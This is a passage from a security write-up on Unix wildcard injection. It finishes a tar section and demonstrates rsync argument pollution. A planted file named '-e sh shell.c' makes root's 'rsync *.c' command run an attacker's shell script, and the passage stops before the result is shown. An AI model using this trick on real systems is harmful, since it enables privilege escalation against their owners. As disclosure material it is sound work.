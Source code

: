 So, with this tar argument pollution, we can basically execute arbitrary commands 
with privileges of the user that runs tar. As demonstrated on the 'root' account above.




## 4.4 Rsync arbitrary command execution

Rsync is "a fast, versatile, remote (and local) file-copying tool", that is very
common on Unix systems.
If we check 'rsync' manual page, we can again find options that can be abused for arbitrary 
command execution.

Rsync manual:
"You use rsync in the same way you use rcp. You must specify a source and a destination, 
one of which may be remote."

Interesting rsync option from manual:

 -e, --rsh=COMMAND           specify the remote shell to use
     --rsync-path=PROGRAM    specify the rsync to run on remote machine


Let's abuse one example directly from the 'rsync' manual page.
Following example will copy all C files in local directory to a remote host 'foo' 
in '/src' directory.
# rsync -t *.c foo:src/

Directory content:

[root@defensecode public]# ls -al
total 72
drwxrwxrwx.  2 user user  4096 Mar 28 04:47 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
-rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
-rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
-rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
-rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
-rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
-rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
-rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
-rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
-rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
-rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

Now root will try to copy all C files to the remote server.

[root@defensecode public]# rsync -t *.c foo:src/

rsync: connection unexpectedly closed (0 bytes received so far) [sender]
rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]

Let's see what happened...
